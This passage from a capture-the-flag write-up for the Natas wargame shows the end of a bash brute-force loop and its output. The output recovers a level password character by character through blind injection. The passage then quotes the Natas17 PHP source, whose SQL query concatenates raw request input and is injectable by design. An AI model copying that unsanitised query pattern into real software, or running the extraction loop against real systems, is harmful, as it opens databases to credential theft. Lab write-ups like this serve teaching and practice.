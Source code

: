 ```bash
        fi
    done
done
```

```text
[+] Password: 8
[+] Password: 8P
[+] Password: 8Ps
[+] Password: 8Ps3
[+] Password: 8Ps3H
[+] Password: 8Ps3H0
[+] Password: 8Ps3H0G
[+] Password: 8Ps3H0GW
[+] Password: 8Ps3H0GWb
[+] Password: 8Ps3H0GWbn
[+] Password: 8Ps3H0GWbn5
[+] Password: 8Ps3H0GWbn5r
[+] Password: 8Ps3H0GWbn5rd
[+] Password: 8Ps3H0GWbn5rd9
[+] Password: 8Ps3H0GWbn5rd9S
[+] Password: 8Ps3H0GWbn5rd9S7
[+] Password: 8Ps3H0GWbn5rd9S7G
[+] Password: 8Ps3H0GWbn5rd9S7Gm
[+] Password: 8Ps3H0GWbn5rd9S7GmA
[+] Password: 8Ps3H0GWbn5rd9S7GmAd
[+] Password: 8Ps3H0GWbn5rd9S7GmAdg
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQ
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQN
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNd
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdk
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkh
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhP
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```

8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

## Natas17

```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
```
